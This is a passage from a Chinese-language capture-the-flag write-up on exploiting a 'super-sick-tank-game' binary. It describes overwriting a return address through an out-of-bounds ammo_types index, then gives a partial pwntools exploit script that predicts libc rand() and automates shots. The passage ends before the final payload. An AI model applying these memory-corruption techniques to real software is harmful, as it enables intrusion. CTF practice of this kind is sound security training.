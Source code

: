 那么我们可以通过ammo_types[9-1]来取出残留的任意字节值，然后对返回地址进行覆盖。

![image-20231130172004401](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501050001083.png)

![image-20231130172302512](https://cdn.jsdelivr.net/gh/chuw3i/picodemo/img/202501050001084.png)

完成对返回地址的覆写后，将miss_ctr 覆盖成一个较小的值，然后耗尽所有miss_ctr 退出即可

```python
from pwn import*
from ctypes import CDLL
from math import*
context.arch='amd64'
context.log_level='debug'
#p=remote("184.72.87.9",8004)
p=process('./super-sick-tank-game')
libc=ELF('./libc.so.6')
mylibc=CDLL("./libc.so.6")
s = lambda data : p.send(data)
sl = lambda data : p.sendline(data)
sa = lambda text, data : p.sendafter(text, data)
sla = lambda text, data : p.sendlineafter(text, data)
r = lambda : p.recv()
rn = lambda x  : p.recvn(x)
ru = lambda text : p.recvuntil(text)
dbg = lambda text=None  : gdb.attach(p, text)
uu32 = lambda : u32(p.recvuntil(b"\xff")[-4:].ljust(4, b'\x00'))
uu64 = lambda : u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
pr = lambda s : print('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
def mydbg():
    gdb.attach(p)
    pause()


def myfun(num,max_power=33,max_ange=90):
    if max_ange>180:
        max_ange=180
    #log("max_ange")
    #log("max_power")
    for v0 in range(0,max_power+1):
        for theta in range(0,max_ange+1):
            thetaRad = 3.141592653589793 * theta / 180.0;
            vx = cos(thetaRad) * v0;
            vy = sin(thetaRad) * v0;
            result=(vx * ((vy + vy) / 9.81))
            if int(result)==num:
                print("v0=="+str(v0)+"theta=="+str(theta))
                return v0,theta


def shot(ammo_type=1):
    result=(mylibc.rand())%0x70-1
    print("result=="+str(result))
    power,angle=myfun(result)
    ru("|100m\n")
    first_line=p.recvline()
    if first_line==b"Hit Streak! 1 specialty ammo granted\n":
        log,info("+1 specialty ammo")
        ru("Select ammo type:\n1: _\n2: -")
        sl(str(ammo_type))
    sl(str(power))
    ru("Enter angle: ")
    sl(str(angle))
```